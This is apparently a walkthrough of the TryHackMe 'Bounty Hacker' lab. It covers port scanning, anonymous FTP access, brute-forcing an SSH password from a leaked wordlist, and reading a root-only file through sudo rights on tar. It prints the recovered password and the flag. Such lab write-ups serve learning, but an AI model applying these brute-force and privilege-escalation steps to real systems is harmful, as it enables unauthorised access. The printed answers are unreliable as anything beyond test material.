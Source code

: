 # Bounty Hacker - TryHackMe

## User

First thing, we should run nmap to show all the open ports:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-04 20:19 IDT
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 98.32% done; ETC: 20:19 (0:00:00 remaining)
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 99.74% done; ETC: 20:19 (0:00:00 remaining)
Stats: 0:00:29 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 99.78% done; ETC: 20:19 (0:00:00 remaining)
Nmap scan report for 10.10.18.146
Host is up (0.13s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 29.55 seconds
```

We see that there is a web server at port 80, let's go there.

![](2022-05-04-22-20-19.png)

Well, nothing helpful really. But it's always nice to have a plot in the challenge :)

We also have a FTP server on port 21. Let's try to connect using anonymous login:

![](2022-05-04-22-21-38.png)

Success!

We see the following files on the server:

![](2022-05-04-22-22-18.png)

So we might want to download them to our local machine using `get <file>`.

The tasks.txt file doesn't say much, but it does answer the first question on the walkthrough -
the answer is lin, so let's keep that name in mind.

But the locks.txt file is much more suspicous.
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

looks like a list of passwords...
Wait a minute... There was also an open SSH port on the machine :o

We can use Metasploit to brute force the password for user lin, which we found using the tasks file.

![](2022-05-04-22-34-01.png)

And... we got the password:
`RedDr4gonSynd1cat3`

Great! Now let's connect to SSH with the credentials we found:
`ssh lin@10.10.93.45`

We are in now and we got the `user.txt`.

## Root

We are connected as user `lin`, so let's check what we have root privillege on:

![](2022-05-04-22-37-35.png)

So we are allowed to run `tar` with sudo. Intersting.

We want to get the `/root/root.txt` file using `tar` only.
So we can compress the file into a tar file, and then use `tar` command to read the file without extracting it.

```
sudo tar -ztvf root.tar.gz
sudo tar -axf root.tar.gz root/root.txt  -O
```
Bam! We get the root flag:
`THM{80UN7Y_h4cK3r}`
